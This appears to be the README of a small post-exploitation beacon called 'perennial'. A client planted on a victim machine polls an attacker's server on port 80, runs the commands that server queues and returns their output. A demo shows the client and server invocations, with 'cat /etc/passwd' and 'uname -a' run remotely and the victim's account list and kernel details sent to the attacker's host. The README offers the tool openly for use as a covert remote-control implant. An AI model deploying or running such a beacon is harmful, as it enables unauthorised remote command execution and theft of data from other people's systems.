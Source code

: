 # perennial

A simple implementation of a post-exploitation beacon.

## overview

`client.py` is the script that runs on the victim machine, theoretically
hidden or obscured in some way. Based on arguments, it sends a ping of sorts
to a specified ip (attacker) at a desired frequency, where `server.py` may
or may not be running. As soon as `server.py` is executed on the attacker's
machine, `client.py` will be able to connect to the server and essentially ask
for a command to execute, based on arguments passed to `server.py`.
`client.py` will obediently execute the command and send the stdout back to
the server.

The server runs on port 80 of the attacker's machine by default and since that
is the commonly used port for web traffic, it is highly likely the victim will
be able to connect back.

## demo

The attacker has gotten access to the victim's machine and downloaded and
executed perennial. He/she does not have the server running at this point,
but it's ok, perennial waits patiently. Eventually the attacker is ready and
starts the server, telling perennial to execute the commands, "cat /etc/passwd"
and "uname -a". The next time perennial pings the server it sees the commands
queued to be executed and does so, one at a time. When all the commands have
been executed, the server stops, but perennial keeps listening.

Victim's Machine (5.4.3.2):

```
$ ./client.py 1.2.3.4 5
[+] Perennial started with delay of 5 seconds to port 80. Ctrl-c to exit.
[!] (2014-05-07 21:52:29.475144) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:34.475740) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:39.475874) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:44.477319) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:49.478246) Could not connect to server. Waiting...
[+] (2014-05-07 21:52:54.480326) Executing "cat /etc/passwd"
[+] (2014-05-07 21:52:59.489891) Executing "uname -a"
[!] (2014-05-07 21:53:04.496380) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:09.497329) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:14.498801) Could not connect to server. Waiting...
```

Attacker's Machine (1.2.3.4):

```
$ sudo ./server.py "cat /etc/passwd" "uname -a"
[+] Perennial server started on 80.
[i] Connected By: ('5.4.3.2', 52252) at 2014-05-07 21:52:54.480167
[+] Sending Command: cat /etc/passwd
[+] Command Stdout:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
lol:x:1001:1001::/home/lol:/bin/bash
[i] Connected By: ('5.4.3.2', 52253) at 2014-05-07 21:52:59.489664
[+] Sending Command: uname -a
[+] Command Stdout:
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

[-] Finished with commands
```
